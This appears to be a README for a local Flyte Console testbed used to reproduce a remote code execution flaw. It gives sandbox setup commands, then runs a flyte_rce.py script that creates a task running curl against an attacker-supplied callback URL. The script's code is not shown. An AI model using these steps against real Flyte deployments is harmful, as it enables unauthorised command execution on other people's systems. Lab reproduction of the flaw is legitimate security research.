 # Flyte Console

Follow these steps to set up a testbed for Flyte Console:

1. **Set the Flyte Helm Chart Version**:
   For this setup, we're using version 1.13.1. You can find a list of all available versions at [Artifact Hub](https://artifacthub.io/packages/helm/flyte/flyte).

   ```bash
   export FLYTE_HELM_CHART_VERSION=1.13.1
   ```

2. **Run Flyte Sandbox**:
   Run the following command to start the Flyte Sandbox environment. 

   ```bash
   docker run --rm --privileged -e FLYTE_VERSION=${FLYTE_HELM_CHART_VERSION} \
   -p 30080:30080 -p 30081:30081 -p 30082:30082 -p 30084:30084 \
   cr.flyte.org/flyteorg/flyte-sandbox:v1.15.3
   ```
    This setup will make the Flyte Console accessible at `http://localhost:30081/console` and the API available at` http://localhost:30081/api/v1/`.


# Steps to reproduce

1. Install flytekit using the following command

```bash
pip3 install flytekit
```

2. Execute the `flyte_rce.py` script to perform RCE by invoking the callback URL. The usage details are provided below.

```bash
python3 flyte_rce.py  --url http://localhost:30081 --callback_url  $CALLBACK_URL
```
#### How RCE executed ?

`flyte_rce.py` script creates a task within the default project `flytesnacks` and domain `development`, utilizing the `docker.io/nginx:latest` Docker image, and runs the `curl` command with the specified `--callback_url` parameter.

